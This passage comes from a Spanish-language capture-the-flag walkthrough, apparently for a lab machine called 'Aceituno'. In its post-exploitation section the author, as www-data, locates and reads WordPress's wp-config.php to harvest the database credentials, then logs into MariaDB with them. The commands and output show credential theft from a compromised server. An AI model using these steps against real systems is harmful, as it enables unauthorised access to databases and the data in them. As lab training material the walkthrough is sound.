 Muy bien, estamos dentro.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="MySQL">Enumeración de Servicio MySQL</h2>

Si recordamos el escaneo, habíamos encontrado que está activo el **servicio MySQL**.

Existe un archivo que contiene el usuario y contraseña de la base de datos de **WordPress**. Este archivo se llama **wp-config.php**.

Vamos a buscarlo:
```bash
www-data@Aceituno:/var/www/html/wordpress$ find /var/www/ -type f -name "wp-config.php"
/var/www/html/wordpress/wp-config.php
```

Si lo leemos, ahí estarán las credenciales de acceso al **servicio MySQL** para ver la base de datos de **WordPress**:
```bash
www-data@Aceituno:/var/www/html/wordpress$ cat /var/www/html/wordpress/wp-config.php
<?php
/**
 * The base configuration for WordPress
...
...
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'Tomamoreno' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
...
```

Intentemos entrar a **MySQL**:
```bash
www-data@Aceituno:/var/www/html/wordpress$ mysql -u wp_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 115087
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
Bien, pudimos entrar.
